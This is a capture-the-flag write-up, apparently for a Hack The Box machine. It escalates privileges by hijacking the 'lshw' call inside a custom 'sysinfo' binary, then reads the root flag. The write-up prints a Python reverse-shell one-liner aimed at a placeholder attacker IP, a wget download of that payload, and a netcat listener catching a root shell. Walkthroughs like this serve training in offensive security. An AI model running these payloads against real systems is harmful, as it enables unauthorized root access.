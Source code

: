 # Priviledge Escalation

## Sysinfo

After some digging you encounter `sysinfo` which isn't native to linux but is a custom programm that outputs the same as the following:

1. `lshw -short` = Hardware Info
2. `fdisk -l` = Disk Info
3. `cat /proc/cpuinfo` = CPU Info
4. `free -h` = MEM Usage

So localy I wrote a file called lshw with the python command we use earlier in it

**lshw**

```BASH
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[YOUR IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now let's download this file using `wget` onto the machine and give it the appropriate permissions:

```bash
theseus@ubuntu:/tmp$ wget http://[YOUR IP]:8000/lshw 
wget http://[YOUR IP]:8000/lshw
--2020-08-04 07:06:19--  http://[YOUR IP]:8000/lshw
Connecting to [YOUR IP]:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 228 [application/octet-stream]
Saving to: ‘lshw’

lshw                100%[===================>]     228  --.-KB/s    in 0s      

2020-08-04 07:06:19 (29.8 MB/s) - ‘lshw’ saved [228/228]

theseus@ubuntu:/tmp$ chmod 755 lshw
```

Now listen with netcat on you local machine and execute `sysinfo`:

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.185] 59856
python3 -c "import pty; pty.spawn('/bin/bash')"
root@ubuntu:/tmp#
```

## GET root flag

Now let's get that flag

```bash
root@ubuntu:~# cd /root
cd /root
root@ubuntu:/root# ls
ls
info.c  root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
c5.........................00
root@ubuntu:/root# 
```

Yay we got it